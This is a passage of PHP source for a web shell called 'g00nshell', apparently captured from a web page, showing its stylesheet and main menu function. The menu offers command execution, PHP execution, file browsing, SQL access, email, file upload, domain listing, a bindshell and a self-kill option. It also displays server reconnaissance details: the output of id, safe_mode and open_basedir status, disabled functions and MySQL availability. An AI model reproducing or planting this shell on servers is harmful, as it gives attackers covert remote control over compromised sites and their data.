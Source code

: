   input,textarea,select { color:#FFFFFF; background-color:#2F2F2F; border:1px solid #4F4F4F; font-family:Verdana; font-size:11px; }\n
  textarea { font-family:Courier; font-size:11px; }\n
  a { color:#6F6F6F; text-decoration:none; font-family:Verdana; font-size:11px; }\n
  a:hover { color:#7F7F7F; }\n
  td,th { font-size:12px; vertical-align:middle; }\n
  th { font-size:13px; }\n
  table { empty-cells:show;}\n
  .inf { color:#7F7F7F; }\n
  &lt;/style&gt;\n
  &lt;/head&gt;\n");
}
function main(){ // Main/menu function
  global $self, $servip, $servport, $uname, $soft, $banner, $curuser, $version;
  style();
  $act = array('cmd'=&gt;'Command Execute','files'=&gt;'File View','phpinfo'=&gt;'PHP info', 'phpexec'=&gt;'PHP Execute',
  'tools'=&gt;'Tools','sqllogin'=&gt;'SQL','email'=&gt;'Email','upload'=&gt;'Get Files','lookup'=&gt;'List Domains','bshell'=&gt;'Bindshell','kill'=&gt;'Kill Shell');
  $capt = array_flip($act);
  echo("&lt;form method='GET' name='shell'&gt;");
  echo("&lt;b&gt;Host:&lt;/b&gt; &lt;span class='inf'&gt;" . $servip . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;b&gt;Server software:&lt;/b&gt; &lt;span class='inf'&gt;" . $soft . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;b&gt;Uname:&lt;/b&gt; &lt;span class='inf'&gt;" . $uname . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;b&gt;Shell Directory:&lt;/b&gt; &lt;span class='inf'&gt;" . getcwd() . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;div style='display:none' id='info'&gt;");
  echo("&lt;b&gt;Current User:&lt;/b&gt; &lt;span class='inf'&gt;" . $curuser . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;b&gt;ID:&lt;/b&gt; &lt;span class='inf'&gt;" . @exec('id') . "&lt;/span&gt;&lt;br&gt;");
  if(@ini_get('safe_mode') != ""){echo("&lt;b&gt;Safemode:&lt;/b&gt; &lt;font color='red'&gt;ON&lt;/font&gt;");}
  else{echo("&lt;b&gt;Safemode:&lt;/b&gt; &lt;font color='green'&gt;OFF&lt;/font&gt;");}
  echo("\n&lt;br&gt;\n");
  if(@ini_get('open_basedir') != ""){echo("&lt;b&gt;Open Base Dir:&lt;/b&gt; &lt;font color='red'&gt;ON&lt;/font&gt; [ &lt;span class='inf'&gt;" . ini_get('open_basedir') . "&lt;/span&gt; ]");}
  else{echo("&lt;b&gt;Open Base Dir:&lt;/b&gt; &lt;font color='green'&gt;OFF&lt;/font&gt;");}
  echo("\n&lt;br&gt;\n");
  if(@ini_get('disable_functions') != ""){echo("&lt;b&gt;Disabled functions:&lt;/b&gt; " . @ini_get('disable_functions'));}
  else{echo("&lt;b&gt;Disabled functions:&lt;/b&gt; None");}
  echo("\n&lt;br&gt;\n");
  if(@function_exists(mysql_connect)){echo("&lt;b&gt;MySQL:&lt;/b&gt; &lt;font color='green'&gt;ON&lt;/font&gt;");}
  else{echo("&lt;b&gt;MySQL:&lt;/b&gt; &lt;font color='red'&gt;OFF&lt;/font&gt;");}
  echo("&lt;/div&gt;");
  echo("[ &lt;a href='#hax' onClick=\"document.getElementById('info').style.display = 'block';\"&gt;More&lt;/a&gt; ] ");
  echo("[ &lt;a href='#hax' onClick=\"document.getElementById('info').style.display = 'none';\"&gt;Less&lt;/a&gt; ]");
  echo("&lt;center&gt;");
  echo("&lt;h3 align='center'&gt;Links&lt;/h3&gt;");
  if($_SERVER['QUERY_STRING']){foreach($act as $link){echo("[ &lt;a href='?" . $_SERVER['QUERY_STRING'] . "&act=" . $capt[$link] . "' target='frm'&gt;" . $link . "&lt;/a&gt; ] ");}}
  else{foreach($act as $link){echo("[ &lt;a href='?act=" . $capt[$link] . "' target='frm'&gt;" . $link . "&lt;/a&gt; ] ");}}
  echo("&lt;/center&gt;");
  echo("&lt;hr&gt;");
  echo("&lt;br&gt;&lt;iframe name='frm' style='width:100%; height:65%; border:0;' src='?act=files'&gt;&lt;/iframe&gt;");
  echo("&lt;pre style='text-align:center'&gt;:: g00nshell &lt;font color='red'&gt;v" . $version . "&lt;/font&gt; ::&lt;/pre&gt;");
  die();

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png